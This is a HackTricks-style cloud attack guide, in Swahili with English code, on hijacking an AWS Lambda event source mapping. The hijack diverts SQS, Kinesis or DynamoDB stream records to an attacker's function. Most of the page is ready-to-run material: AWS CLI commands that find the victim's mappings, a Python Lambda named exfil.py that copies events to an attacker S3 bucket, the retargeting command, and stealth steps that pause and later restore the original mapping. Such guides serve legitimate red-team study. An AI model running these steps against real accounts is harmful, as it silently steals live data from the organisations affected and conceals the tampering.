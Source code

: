 # AWS - Hijack Event Source Mapping to Redirect Stream/SQS/Kinesis to Attacker Lambda

{{#include ../../../../banners/hacktricks-training.md}}

Tumia vibaya `UpdateEventSourceMapping` kubadili Lambda function inayolengwa ya Event Source Mapping (ESM) iliyopo, ili rekodi kutoka DynamoDB Streams, Kinesis, au SQS ziwasilishwe kwa function inayodhibitiwa na mdukuzi. Hii inaelekeza kwa ukimya data ya moja kwa moja bila kuathiri producer apps au msimbo wa function wa awali.

## Athari
- Kuelekeza na kusoma rekodi za moja kwa moja kutoka streams/queues zilizopo bila kubadilisha programu zinazotoa au msimbo wa mwathiriwa.
- Inawezekana kuondoa data nje (data exfiltration) au kubadilisha mantiki kwa kuchakata trafiki ya mwathiriwa katika function haramu.

## Ruhusa zinazohitajika
- `lambda:ListEventSourceMappings`
- `lambda:GetEventSourceMapping`
- `lambda:UpdateEventSourceMapping`
- Uwezo wa kupeleka au kurejea Lambda inayodhibitiwa na mdukuzi (`lambda:CreateFunction` au ruhusa ya kutumia moja iliyopo).

## Hatua

1) Orodhesha Event Source Mappings za function ya mwathiriwa
```
TARGET_FN=<victim-function-name>
aws lambda list-event-source-mappings --function-name $TARGET_FN \
--query 'EventSourceMappings[].{UUID:UUID,State:State,EventSourceArn:EventSourceArn}'
export MAP_UUID=$(aws lambda list-event-source-mappings --function-name $TARGET_FN \
--query 'EventSourceMappings[0].UUID' --output text)
export EVENT_SOURCE_ARN=$(aws lambda list-event-source-mappings --function-name $TARGET_FN \
--query 'EventSourceMappings[0].EventSourceArn' --output text)
```
2) Andaa attacker-controlled receiver Lambda (mkoa ule ule; ikiwezekana VPC/runtime inayofanana)
```
cat > exfil.py <<'PY'
import json, boto3, os, time

def lambda_handler(event, context):
print(json.dumps(event)[:3000])
b = os.environ.get('EXFIL_S3')
if b:
k = f"evt-{int(time.time())}.json"
boto3.client('s3').put_object(Bucket=b, Key=k, Body=json.dumps(event))
return {'ok': True}
PY
zip exfil.zip exfil.py
ATTACKER_LAMBDA_ROLE_ARN=<role-with-logs-(and optional S3)-permissions>
export ATTACKER_FN_ARN=$(aws lambda create-function \
--function-name ht-esm-exfil \
--runtime python3.11 --role $ATTACKER_LAMBDA_ROLE_ARN \
--handler exfil.lambda_handler --zip-file fileb://exfil.zip \
--query FunctionArn --output text)
```
3) Badilisha mapping ili iielekezwe kwa attacker function
```
aws lambda update-event-source-mapping --uuid $MAP_UUID --function-name $ATTACKER_FN_ARN
```
4) Zalisha tukio kwenye chanzo ili mapping ianzishwe (mfano: SQS)
```
SOURCE_SQS_URL=<queue-url>
aws sqs send-message --queue-url $SOURCE_SQS_URL --message-body '{"x":1}'
```
5) Thibitisha attacker function inapokea batch
```
aws logs filter-log-events --log-group-name /aws/lambda/ht-esm-exfil --limit 5
```
6) Kuficha (hiari)
```
# Pause mapping while siphoning events
aws lambda update-event-source-mapping --uuid $MAP_UUID --enabled false

# Restore original target later
aws lambda update-event-source-mapping --uuid $MAP_UUID --function-name $TARGET_FN --enabled true
```
Vidokezo:
- Kwa SQS ESMs, role ya utekelezaji ya Lambda inayoshughulikia queue inahitaji `sqs:ReceiveMessage`, `sqs:DeleteMessage`, na `sqs:GetQueueAttributes` (sera iliyosimamiwa: `AWSLambdaSQSQueueExecutionRole`).
- UUID ya ESM inabaki ile ile; tu `FunctionArn` yake inabadilika, hivyo producers na source ARNs hazuguswi.

{{#include ../../../../banners/hacktricks-training.md}}
